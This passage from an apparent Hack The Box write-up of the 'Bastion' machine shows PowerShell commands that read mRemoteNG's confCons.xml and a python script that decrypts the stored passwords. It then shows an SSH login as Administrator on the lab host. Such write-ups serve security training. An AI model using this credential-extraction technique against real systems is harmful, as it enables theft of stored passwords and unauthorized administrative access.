using python3 to print out the help menu we see that we will have to setup a few flags : first of all we need the string of the encrypted mremoteng password, which according to the aforementioned blog post is located in the config file, so let's navigate there
    
    
      PS C:\Users\L4mpje> cd \Users\L4mpje\Appdata\Roaming
    PS C:\Users\L4mpje\Appdata\Roaming> dir
    
    
        Directory: C:\Users\L4mpje\Appdata\Roaming
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        22-2-2019     13:50                Adobe
    d---s-        22-2-2019     13:52                Microsoft
    d-----        22-2-2019     14:03                mRemoteNG
    

moving into mRemoteNG we print out the contents of confCons.xml 
    
    
      PS C:\Users\L4mpje\Appdata\Roaming> cd .\mRemoteNG\
    PS C:\Users\L4mpje\Appdata\Roaming\mRemoteNG> dir
    
    
        Directory: C:\Users\L4mpje\Appdata\Roaming\mRemoteNG
    
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        22-2-2019     14:01                Themes
    -a----        22-2-2019     14:03           6316 confCons.xml
    -a----        22-2-2019     14:02           6194 confCons.xml.20190222-1402277353.backup
    -a----        22-2-2019     14:02           6206 confCons.xml.20190222-1402339071.backup
    -a----        22-2-2019     14:02           6218 confCons.xml.20190222-1402379227.backup
    -a----        22-2-2019     14:02           6231 confCons.xml.20190222-1403070644.backup
    -a----        22-2-2019     14:03           6319 confCons.xml.20190222-1403100488.backup
    -a----        22-2-2019     14:03           6318 confCons.xml.20190222-1403220026.backup
    -a----        22-2-2019     14:03           6315 confCons.xml.20190222-1403261268.backup
    -a----        22-2-2019     14:03           6316 confCons.xml.20190222-1403272831.backup
    -a----        22-2-2019     14:03           6315 confCons.xml.20190222-1403433299.backup
    -a----        22-2-2019     14:03           6316 confCons.xml.20190222-1403486580.backup
    -a----        22-2-2019     14:03             51 extApps.xml
    -a----        22-2-2019     14:03           5217 mRemoteNG.log
    -a----        22-2-2019     14:03           2245 pnlLayout.xml
    
    
    PS C:\Users\L4mpje\Appdata\Roaming\mRemoteNG> type confCons.xml
    Username="L4mpje" Domain="" Password="yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB"
    

and there we have our encrypted password string ! let's try out the python script we just got to see if it can decrypt it. 
    
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → python3 mremoteng.py -s yhgmiu5bbuamU3qMUKc/uYDdmbMrJZ/JvR1kYe4Bhiu8bXybLxVnO0U9fKRylI7NcB9QuRsZVvla8esB
      Password: bureaulampje
    

we already have that one, so we need to check for another one 
    
    
      Username="Administrator" Domain="" Password="aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw=="
    
    
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → python3 mremoteng.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
      Password: thXLHM96BeKL0ER2
    

seems like we have a password for the Administrator user, let's see if we can SSH as the Administrator user. 
    
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
    → ssh Administrator@10.10.10.134
    Administrator@10.10.10.134's password:
    
    Microsoft Windows [Version 10.0.14393]
    (c) 2016 Microsoft Corporation. All rights reserved.
    
    administrator@BASTION C:\Users\Administrator>whoami
    bastion\administrator
    

And there we go, we are logged in as Administrator ! all that's left to do is to print out the root flag. 
    
    
      λ root [ 10.10.14.15/23 ] [nihilist/_HTB/Bastion]
      → ssh Administrator@10.10.10.134
      Administrator@10.10.10.134's password:
    
      Microsoft Windows [Version 10.0.14393]
      (c) 2016 Microsoft Corporation. All rights reserved.
    
      administrator@BASTION C:\Users\Administrator>whoami
      bastion\administrator
    
      administrator@BASTION C:\Users\Administrator>cd Desktop
    
      administrator@BASTION C:\Users\Administrator\Desktop>type root.txt
      95XXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
    

And that's it ! we have been able to print out the root flag.

## **Conclusion**

Here we can see the progress graph :

